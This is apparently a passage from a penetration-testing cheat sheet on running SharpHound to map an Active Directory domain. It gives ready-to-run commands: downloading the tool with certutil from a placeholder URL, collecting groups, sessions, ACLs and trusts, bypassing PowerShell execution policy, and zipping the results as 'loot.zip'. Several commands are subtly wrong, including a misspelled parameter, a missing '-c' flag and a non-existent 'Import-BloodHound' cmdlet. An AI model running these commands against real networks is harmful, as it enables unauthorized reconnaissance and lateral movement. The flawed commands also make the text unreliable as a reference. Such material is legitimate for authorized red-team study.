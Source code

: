 ```cmd
certutil.exe -urlcache -split -f "<url>" SharpHound.exe
```


#### Run SharpHound for Data Collection

Sharphound can collect various types of data

* All Collection methods

```cmd
.\SharpHound.exe -c All -v
```

* Group membership collection

```cmd
.\SharpHound.exe -c Group -v
```

* Session collection

```cmd
.\SharpHound.exe -c Session -v
``` 

* ACL collection

```cmd
.\SharpHound.exe -c ACL -v
```

* Trust Collection

```cmd
.\SharpHound.exe Trust -v
```

* Output to ZIP

```cmd
.\SharpHound.exe -c All -v -o collection.zip
```

#### Using Powershell

* Bypass Execution Policy

```cmd
powershell.exe -nop -ep bypass
```

* Import SharpHound Module and start Collection

```powershell
Import-Module .\SharpHound.ps1
```

```Powershell
Import-BloodHound -CollectionMethd All -Domain infosecwarrior.local -ZipFileName loot.zip
```

* Use Invoke-BloodHound with different ``-CollectionMethod`` option to fine-tune your gathering
  * ``All`` -> Collect all available data (can be noisy)
  * ``Default`` -> Basic collection suitable for most situations
  * ``Group``, ``Session``, ``Trust`` -> Targeted collection for specific needs
